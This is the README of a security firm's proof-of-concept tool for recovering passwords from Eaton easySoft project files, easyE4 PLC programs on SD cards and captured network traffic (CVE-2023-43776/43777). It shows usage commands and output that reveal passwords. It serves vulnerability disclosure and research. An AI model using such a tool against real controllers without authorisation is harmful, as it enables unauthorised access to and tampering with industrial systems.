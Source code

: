 Password recovery easySoft and easyE4 (CVE-2023-43776 and CVE-2023-43777)
====

This script can extract the project password from an easySoft project file as well as calculating password candidates for easyE4 programs stored on an SD card.
In addition, password candidates can also be extracted from a network stream which was recorded during administration, for example.

You can find further details about those security issues in our SySS security advisories SYSS-2023-007, SYSS-2023-008, SYSS-2023-009 and SYSS-2023-010.

Usage
-----

Retrieving the password from a project file:
```
> easy_password_recovery.py PRJ syss_prj_pw_123456.e80
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password 123456

[*] Bye!
```

Calculating password candidates for an easyE4 program stored on an SD card:
```
> easy_password_recovery.py SDC syss_prg_pw_222222.prg
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 9fd0204: 222222
[*] Found password candidate for encoded password 9fd0204: Q628AW
[*] Found password candidate for encoded password 9fd0204: R0ZUS6

[*] Bye!
```

Calculating password candidates from a network stream intercepted during administration:
```
> easy_password_recovery.py PCAP syss_network_pw_111111.pcapng
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: 111111
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: Q3YVP5
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: ZCAAQS

[*] Bye!
```

Requirements
------------

* `python 3.x`
* `pyshark`

Demo
----

In this PoC video, the two security issues concerning the password protection of the Eaton easyE4 programmable logic controller (PLC) and the corresponding software easySoft are demonstrated.

[![SySS PoC Video: Eaton easy Password Hacking // Password Recovery for easySoft and easyE4 PLC](/images/eaton_easy_password_recovery_video.jpg)](https://www.youtube.com/watch?v=H4R6J8dNFek "Eaton easy Password Hacking // Password Recovery for easySoft and easyE4 PLC")

Author
----------

Manuel Stotz (SySS GmbH).

Disclaimer
----------

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
